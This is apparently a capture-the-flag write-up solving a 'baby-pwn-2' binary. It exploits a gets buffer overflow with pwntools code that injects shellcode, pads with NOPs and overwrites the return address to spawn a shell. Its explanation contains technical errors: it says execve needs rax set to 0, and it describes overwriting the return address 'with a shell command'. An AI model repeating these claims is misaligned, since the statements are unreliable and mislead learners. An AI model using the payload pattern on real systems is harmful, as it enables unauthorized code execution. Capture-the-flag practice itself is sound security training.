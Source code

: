 The vulnerability lies in the use of the gets function, which does not check the length of the input. This allows an attacker to overflow the buffer and use shellcode to overwrite the return address with a shell command.

The leaked address shows where the buffer or return address is located in memory.

The shellcode can be found at https://shell-storm.org/. We add the `xor rax, rax` instruction to clear the `rax` register before calling the `execve` syscall. This is necessary because the `execve` syscall expects the `rax` register to be 0. Also, clear `rdx` because envp can be NULL.

There will be noops (`0x90`) in the shellcode to ensure that the shellcode is executed correctly. The payload will be the shellcode followed by more noops to fill the buffer, and then the address of the buffer/return address.

```py
from pwn import *
# Overwrite buffer + saved RBP + saved return address
payload = shellcode.ljust(64, asm('nop'))  # Inject shellcode at the start
payload += asm('nop') * 8  # Saved RBP padding
# Overwrite return address to point to the buffer
payload += p64(buffer_address)
```

Then we can send the payload to the program to get the flag.

```py
from pwn import *
p = process('./baby-pwn-2')
p.sendline(payload)
p.interactive()
```

The full script is in [solve.py](./solve.py).